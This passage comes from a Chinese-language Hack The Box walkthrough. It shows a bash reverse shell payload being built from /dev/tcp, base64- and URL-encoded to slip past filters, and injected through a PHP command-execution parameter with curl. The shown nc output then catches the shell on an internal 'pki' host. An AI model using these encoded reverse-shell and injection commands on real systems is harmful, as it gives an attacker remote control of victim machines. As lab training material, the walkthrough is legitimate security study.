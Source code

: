 # 反向外壳有效负载

最后，我们需要创建我们的有效载荷。我们可以从[这里](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)取一个 pentestmonkey 反向 shell。然后我们用 base64 和 URL 编码它:

```
┌──(root💀kali)-[~/htb/static]
└─# echo -n "/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.254.2/1337 0>&1'" | base64
L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4yNTQuMi8xMzM3IDA+JjEn
```

将 base64 编码字符串放入 echo，解码，然后传递给 bash，以便能够在机器上安全地执行。URL 也对其进行编码，让我们使用 Python 来实现:

```
┌──(root💀kali)-[~/htb/static]
└─# python3 -c "import urllib.parse; print(urllib.parse.quote('/bin/bash -c \'echo -n L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4yNTQuMi8xMzM3IDA+JjEn | base64 -d | bash\''))" 
/bin/bash%20-c%20%27echo%20-n%20L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4yNTQuMi8xMzM3IDA%2BJjEn%20%7C%20base64%20-d%20%7C%20bash%27
```

现在，我们有了像以前一样使用 a=参数的有效负载。所以我们最后的命令看起来像这样:

```
./curl-amd64 -s http://192.168.254.3/index.php?a=/bin/bash%20-c%20%27echo%20-n%20L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4yNTQuMi8xMzM3IDA%2BJjEn%20%7C%20base64%20-d%20%7C%20bash%27
```

在 web box 上执行之前，我们需要打开第二个 SSH 会话，nc 等待捕获 shell:

```
┌──(root💀kali)-[~/htb/static]
└─# ssh -i id_rsa www-data@10.10.10.246 -p 2222                                     
Last login: Sat Nov  6 16:04:52 2021 from 10.10.15.41

www-data@web:~$ cd /tmp
www-data@web:/tmp$ ./nc -nlvp 1337
listening on [any] 1337 ...
```

现在，将 curl 命令粘贴到我们在 web box 上打开的第一个 SSH 会话中:

```
www-data@web:/tmp$ ./curl-amd64 -s http://192.168.254.3/index.php?a=/bin/bash%20-c%20%27echo%20-n%20L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4yNTQuMi8xMzM3IDA%2BJjEn%20%7C%20base64%20-d%20%7C%20bash%27
```

# PKI 服务器反向外壳

切换到我们的第二个 SSH 会话，看看我们有一个反向 shell 连接到 192.168.254.2 上的 pki 箱:

```
www-data@web:/tmp$ ./nc -nlvp 1337
listening on [any] 1337 ...
connect to [192.168.254.2] from (UNKNOWN) [192.168.254.3] 34382
bash: cannot set terminal process group (11): Inappropriate ioctl for device
bash: no job control in this shell
www-data@pki:~/html$
```
